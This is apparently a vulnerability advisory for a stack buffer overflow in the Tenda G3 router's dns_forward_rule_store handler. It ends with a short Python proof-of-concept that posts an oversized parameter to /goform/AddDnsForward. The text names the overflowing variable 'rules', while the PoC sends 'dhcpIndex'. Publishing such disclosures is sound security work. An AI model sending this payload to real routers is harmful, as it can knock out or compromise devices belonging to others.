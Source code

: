 # Tenda G3 dns_forward_rule_store
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the dns_forward_rule_store function.
### Vulnerability details
Stack-based buffer overflow in function dns_forward_rule_store on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function dns_forward_rule_store line 21, it reads in a user-provided parameter, and the variable rules is passed to the strcpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/dns_forward_rule_store-1.png)
![](images/dns_forward_rule_store-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/AddDnsForward'
payload = {
    "dhcpIndex": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
